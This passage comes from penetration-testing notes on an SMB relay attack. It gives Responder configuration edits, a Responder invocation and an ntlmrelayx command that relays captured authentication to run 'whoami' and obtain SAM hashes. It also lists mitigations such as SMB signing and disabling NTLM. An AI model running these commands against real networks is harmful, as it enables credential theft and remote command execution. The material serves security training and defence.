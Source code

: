 Mitigation:
- disable LLMNR and NBT-NS
- require network access control
- require strong user passwords

### SMB Relay
/MITM Attack

[Responder Github link](https://github.com/SpiderLabs/Responder)

[Impacket Github link](https://github.com/SecureAuthCorp/impacket)

1. edit responder conf
2. run responder  
3. set up your relay
4. an event occurs
5. get sam hashes

responder
```
vim /etc/responder/Responder.conf

<snip>
SMB = Off
<snip>
HTTP = Off
<snip>
```

responder
```
responder.py -I tun0 -rdw
```

ntlmrelayx
```
ntlmrelayx.py -tf target.txt -smb2support -c "whoami"
```

Mitigation:
- enable smb signing on all devices
- - pro : completely stops the attack
- - con : can cause performance issues with file copies
- disable ntlm authentication on network
- - pro : completely stops the attack
- - con : if kerberos stops working, windows defaults back to ntlm
- account tiering
- - pro : limits domain admins to specific tasks
- - con : enforcing the policy may be difficult
- local admin restriction
- - pro : can prevent a lot of lateral movement
- - con : potential increase in the amount of service desk tickets

### What to do with creds/hashes
